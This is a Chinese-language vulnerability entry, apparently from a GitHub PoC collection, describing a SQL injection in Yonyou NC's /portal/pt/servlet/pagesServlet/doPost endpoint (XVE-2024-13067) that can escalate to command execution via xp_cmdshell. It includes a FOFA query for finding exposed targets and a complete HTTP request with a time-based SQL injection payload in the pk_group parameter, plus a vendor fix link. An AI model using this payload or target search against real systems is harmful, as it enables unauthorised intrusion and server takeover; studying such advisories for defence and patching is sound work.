

# 用友NC pagesServlet SQL注入致RCE漏洞(XVE-2024-13067)

# 漏洞描述

用友NC /portal/pt/servlet/pagesServlet/doPost接口存在SQL注入漏洞，攻击者通过利用SQL注入漏洞配合数据库xp_cmdshell可以执行任意命令，从而控制服务器。经过分析与研判，该漏洞利用难度低，建议尽快修复。

影响范围

NC65

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 中 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：app="用友-UFIDA-NC"

POC/EXP：

GET /portal/pt/servlet/pagesServlet/doPost?pageId=login&pk_group=1'waitfor+delay+'0:0:5'-- HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Connection: keep-alive

# 修复方案

官方已发布修复方法：

https://security.yonyou.com/#/noticeInfo?id=557

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
